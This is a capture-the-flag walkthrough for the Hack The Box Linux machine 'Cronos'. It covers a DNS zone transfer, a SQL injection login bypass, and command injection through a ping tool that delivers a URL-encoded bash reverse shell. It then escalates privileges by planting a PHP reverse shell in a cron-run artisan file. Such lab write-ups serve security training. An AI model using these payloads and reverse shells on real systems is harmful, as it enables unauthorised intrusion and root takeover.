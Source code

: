 ```yaml
---
title: "Cronos"
date: 18-06-2025
categories: [Linux, Linux Medium]
tags: [SQL Injection, SQLMap, Cronjob, DNS, RCE]
image: https://labs.hackthebox.com/storage/avatars/f77c75f363afe0d0a6eeccf6a8d8c252.png
---
```


Cronos is a medium difficulty Linux machine. This box has only three TCP ports open; SSH, HTTP and DNS. DNS is configured in such a way that we are able to extract the domain name of this machine which resolves to `cronos.htb`. With the domain name we can perform a DNS zone transfer which leaks an admin subdomain. This admin page has a login form which is vulnerable to an SQL injection which allows us to bypass the login check. Once inside the admin page we have a command injection vulnerability which comes from a ping command. This page seems to be used to test the connection of different devices, and does not have any security checks. We are able to get a reverse shell from which we find a vulnerable cron job that we can abuse to get a reverse shell as the root user. 

![cron_info_card](/assets/images/cronos/Cronos.png)
## Enumeration
As always we can start off with an nmap scan to reveal which TCP ports are open on thsi box.
#### Nmap Scan
```
# Nmap 7.94SVN scan initiated Wed Jun 18 15:54:24 2025 as: nmap -Pn -n -oN nmap/allports --min-rate 5000 -p- 10.10.10.13
Nmap scan report for 10.10.10.13
Host is up (0.021s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

# Nmap done at Wed Jun 18 15:54:35 2025 -- 1 IP address (1 host up) scanned in 11.15 seconds
```

There are only three TCP ports open, a quick look around the website reveals that it is just the default Apache welcome page. DNS being open suggests that there could be some missconfigurations. The main objective would be to perform a DNS zone transfer to leak the different subdomains the machine has available but to do so we need the hostname. To get the hostname we can use the nslookup tool.

```
nslookup 10.10.10.13 10.10.10.13
13.10.10.10.in-addr.arpa	name = ns1.cronos.htb.
```
#### DNS Zone Transfer
We can see from the output that cronos.htb is the domain name. To perform the DNS zone transfer we can use the following command

```
dig axfr @10.10.10.13 cronos.htb

; <<>> DiG 9.18.28-1~deb12u2-Debian <<>> axfr @10.10.10.13 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 19 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Wed Jun 18 20:54:17 CEST 2025
;; XFR size: 7 records (messages 1, bytes 203)

```
## Finding the Hidden Subdomains
We can see from the output that we gain access to the admin.cronos.htb subdomain which we can add to our hosts file to be able to access the webpage. 
![alt text](/assets/images/cronos/image.png)

#### Discovering the SQL injection to Bypass the Login 
Trying common login credentials such as admin:admin does not work so I try to test for an SQL injection which works and we are able to bypass the login form. We can input the following data into the fields to do so:

```
UserName: a' OR 1=1 -- -
Password: a
```

Once inside the welcome page we see a very simple net tool

![alt text](/assets/images/cronos/image2.png)

## Finding a Potential RCE vector
The ping command is a very common to a command injection vulnerability. I captured the request to work with it in burpsuite as that makes things easier:

```
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://admin.cronos.htb/welcome.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 186
Origin: http://admin.cronos.htb
DNT: 1
Connection: keep-alive
Cookie: PHPSESSID=dsdgr0k8vbv3tmem16na0fkqu7
Upgrade-Insecure-Requests: 1
Priority: u=0, i

command=ping+-c+1&host=8.8.8.8
```

We can try a simple and easy to see check by appending a sleep command to the end of the host parameter. The reason to append this at the end of the hosts parameter is because the ping command works as follows `ping host`. If we append our command at the end of the host we can execute any code after executing the ping command. We can try with a `command=ping+-c+1&host=8.8.8.8 ; sleep 2` to check if the reply takes 2 seconds longer, which it does. After confirming the command injection we can try with a bash reverse shell. I had some issues with character encoding but I managed to fix it by encoding the entire command into URL form.

I used the following reverse shell: `bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'` and sent the following payload:

```
command=ping+-c+1&host=8.8.8.8 ; %62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%31%34%2f%39%30%30%31%20%30%3e%26%31%27
```
## Privilege Escalation
Before sending it I set up a listener on the same port on my machine and sure enough we get a connection back as www-data. This user can directly read the user.txt flag inside the home directory of the user `noulis`. From here you could try running linpeas and other priv esc methods but the name of the machine is Cronos. We can safely assume that it is a cron tab exploit.
Checking the crontab file inside /etc/crontab file we see the following:

```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```
The last command is really interesting as it executes every minute as the root user. It is executing a file inside the /var/www/ directory which is the home directory of the www-data user we already own. The artisan file is also writable by us and contains a php script. I simply added the following php reverse shell at the top of the file, which will send me a reverse shell as the root user every minute.

```
cat ~/laravel/artisan
#!/usr/bin/env php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/9002 0>&1'");
/*
```

![alt text](/assets/images/cronos/image3.png)